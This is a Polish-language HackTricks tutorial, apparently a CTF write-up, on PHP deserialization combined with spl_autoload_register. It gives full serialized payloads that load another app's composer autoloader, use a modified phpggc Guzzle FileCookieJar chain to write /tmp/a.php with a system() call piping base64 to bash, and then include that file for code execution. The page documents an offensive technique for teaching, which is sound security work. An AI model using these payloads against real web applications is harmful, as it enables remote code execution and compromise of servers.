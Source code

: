 # PHP - Deserializacja + Autoload Klasy

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

Najpierw powinieneś sprawdzić, czym są [**Autoloading Classes**](https://www.php.net/manual/en/language.oop5.autoload.php).

## PHP deserializacja + spl\_autoload\_register + LFI/Gadget

Jesteśmy w sytuacji, w której znaleźliśmy **deserializację PHP w aplikacji webowej** bez **żadnej** biblioteki podatnej na gadżety w **`phpggc`**. Jednak w tym samym kontenerze była **inna aplikacja webowa z podatnymi bibliotekami**. Dlatego celem było **załadowanie loadera composera z innej aplikacji webowej** i wykorzystanie go do **załadowania gadżetu, który wykorzysta tę bibliotekę z gadżetem** z aplikacji webowej podatnej na deserializację.

Kroki:

* Znalazłeś **deserializację** i **nie ma żadnego gadżetu** w kodzie bieżącej aplikacji
* Możesz wykorzystać funkcję **`spl_autoload_register`** jak poniżej, aby **załadować dowolny lokalny plik z rozszerzeniem `.php`**
* W tym celu używasz deserializacji, gdzie nazwa klasy będzie w **`$name`**. **Nie możesz używać "/" ani "."** w nazwie klasy w zserializowanym obiekcie, ale **kod** **zamienia** **podkreślenia** ("\_") **na ukośniki** ("/"). Tak więc nazwa klasy taka jak `tmp_passwd` zostanie przekształcona w `/tmp/passwd.php`, a kod spróbuje ją załadować.\
Przykład **gadżetu** będzie: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
Jeśli masz **przesyłanie plików** i możesz przesłać plik z **rozszerzeniem `.php`**, możesz **bezpośrednio nadużyć tej funkcjonalności** i uzyskać już RCE.
{% endhint %}

W moim przypadku nie miałem nic takiego, ale w **tym samym kontenerze** była inna strona internetowa z **biblioteką podatną na gadżet `phpggc`**.

* Aby załadować tę inną bibliotekę, najpierw musisz **załadować loader composera tej innej aplikacji webowej** (ponieważ loader bieżącej aplikacji nie uzyska dostępu do bibliotek innej). **Znając ścieżkę aplikacji**, możesz to osiągnąć bardzo łatwo za pomocą: **`O:28:"www_frontend_vendor_autoload":0:{}`** (W moim przypadku loader composera znajdował się w `/www/frontend/vendor/autoload.php`)
* Teraz możesz **załadować** loader composera **innej aplikacji**, więc nadszedł czas, aby **`wygenerować ładunek phpgcc`** do użycia. W moim przypadku użyłem **`Guzzle/FW1`**, co pozwoliło mi **zapisać dowolny plik w systemie plików**.
* UWAGA: **Wygenerowany gadżet nie działał**, aby działał, **zmodyfikowałem** ten ładunek **`chain.php`** z phpggc i ustawiłem **wszystkie atrybuty** klas **z prywatnych na publiczne**. W przeciwnym razie, po deserializacji ciągu, atrybuty utworzonych obiektów nie miały żadnych wartości.
* Teraz mamy sposób na **załadowanie loadera composera innej aplikacji** i mamy **ładunek phpggc, który działa**, ale musimy **zrobić to w TEJ SAMEJ ŻĄDANIE, aby loader został załadowany, gdy gadżet jest używany**. W tym celu wysłałem zserializowaną tablicę z oboma obiektami, jak:
* Możesz zobaczyć **najpierw ładującego, a potem ładunek**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Teraz możemy **utworzyć i zapisać plik**, jednak użytkownik **nie mógł zapisać w żadnym folderze wewnątrz serwera webowego**. Jak widać w ładunku, PHP wywołuje **`system`** z pewnym **base64**, który jest tworzony w **`/tmp/a.php`**. Następnie możemy **ponownie wykorzystać pierwszy typ ładunku**, którego użyliśmy jako LFI, aby załadować loader composera innej aplikacji webowej **do załadowania wygenerowanego pliku `/tmp/a.php`**. Po prostu dodaj go do gadżetu deserializacji:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Podsumowanie ładunku**

* **Załaduj autoload kompozytora** innej aplikacji webowej w tym samym kontenerze
* **Załaduj gadżet phpggc** aby wykorzystać bibliotekę z innej aplikacji webowej (początkowa aplikacja webowa podatna na deserializację nie miała żadnych gadżetów w swoich bibliotekach)
* Gadżet **utworzy plik z ładunkiem PHP** w /tmp/a.php z złośliwymi poleceniami (użytkownik aplikacji webowej nie może pisać w żadnym folderze żadnej aplikacji webowej)
* Ostatnia część naszego ładunku użyje **załaduj wygenerowany plik php**, który wykona polecenia

Musiałem **wywołać tę deserializację dwa razy**. W moich testach, za pierwszym razem plik `/tmp/a.php` został utworzony, ale nie załadowany, a za drugim razem został poprawnie załadowany.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
